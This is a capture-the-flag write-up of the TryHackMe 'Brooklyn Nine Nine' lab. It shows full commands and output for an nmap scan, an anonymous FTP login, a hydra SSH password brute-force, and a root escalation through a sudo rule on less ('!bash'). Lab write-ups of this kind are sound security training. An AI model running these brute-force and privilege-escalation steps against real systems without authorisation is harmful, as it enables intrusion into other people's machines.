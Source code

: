 # Brooklyn Nine Nine

# Joshua Birch | 11th June 2022 | Easy CTF | https://tryhackme.com/room/brooklynninenine

---

This is an easy CTF on TryHackMe, there are two main intended ways to root the box. Here's how I did it.

---

# Information Gathering

First thing first, gathering information on the target (10.10.250.186) for this I used nmap to get a good idea on what ports are open:
```
Nmap 7.92 scan initiated Sat Jun 11 11:47:09 2022 as: nmap -sC -sV -oN nmap/initial 10.10.250.186
Nmap scan report for 10.10.250.186
Host is up (0.035s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.74.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sat Jun 11 11:47:17 2022 -- 1 IP address (1 host up) scanned in 8.39 seconds
```

As we can see ports 21 (ftp), 22 (ssh) & 80 (http) are currently open. What's interesting is that FTP is allowed anonymous login so let's login.

# FTP Login

Once logged in (using anonymous as the username with no password) we can see using ``` ls ``` that there is a .txt file (note_to_jake.txt)

Using the command ``` get ``` I downloaded the file onto my machine and used ```cat``` to read the contents:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```

This is very useful, it gives us two possbile usernames needed for SSH & most importantly tells us that Jake has a weak password.

With this information, let's get into the system!

# Brute Forcing 

Using ```hydra``` we can bruteforce the password for the user jake to find a password:

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt  10.10.250.186 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-11 12:02:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.250.186:22/
[22][ssh] host: 10.10.250.186   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-11 12:02:36
```

Great, we have found the password! Next we need to login with ssh:

```
┌──(jy0shi㉿demogorgon)-[~]
└─$ ssh jake@10.10.250.186                                           
The authenticity of host '10.10.250.186 (10.10.250.186)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.250.186' (ED25519) to the list of known hosts.
jake@10.10.250.186's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```

# Finding the user flag

Now that we are on the system let's look around for that user flag!

I went straight to /home to see the users home direcories:

```
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
```

We have three users here. Amy, Jake & holt. Looking at Amy's directory, nothing is found. Let's try holt's:
```
jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
```
Okay, we have the user.txt file, let's read that with ```cat``` and see what the flag is:
```
jake@brookly_nine_nine:/home/holt$ cat user.txt 
<REDACTED>
```

Okay we have the user flag! (I have redacted it so you can try it yourself :) 

# Privellege Esculation

Let's try and root this box to get the root flag, lets run ```sudo -l``` to search for any exploitation we can use to get root:

```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Perfect! We can see he can run ``` less /usr/bin``` as sudo. So let's exploit that:
```
jake@brookly_nine_nine:~$ sudo less /etc/hosts
root@brookly_nine_nine:~#
```
when you run ```sudo less /etc/hosts``` write ```!bash``` and you now have sudo privelleges!

# Finding the root flag

Finding the root flag is easy:

```
root@brookly_nine_nine:~# cd /root
root@brookly_nine_nine:/root# ls
root.txt
root@brookly_nine_nine:/root# cat root.txt 
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <REDACTED>
```

I moved into the root directory and listed all files with ```ls``` and there we go, we have root.txt. Read the contents with ```cat``` and the flag is there!

# Closing summary 

I really enjoyed this box - it's good to freshen up on an easy box once in a while.

There are more than one way to get in - this is the way I decided to go.

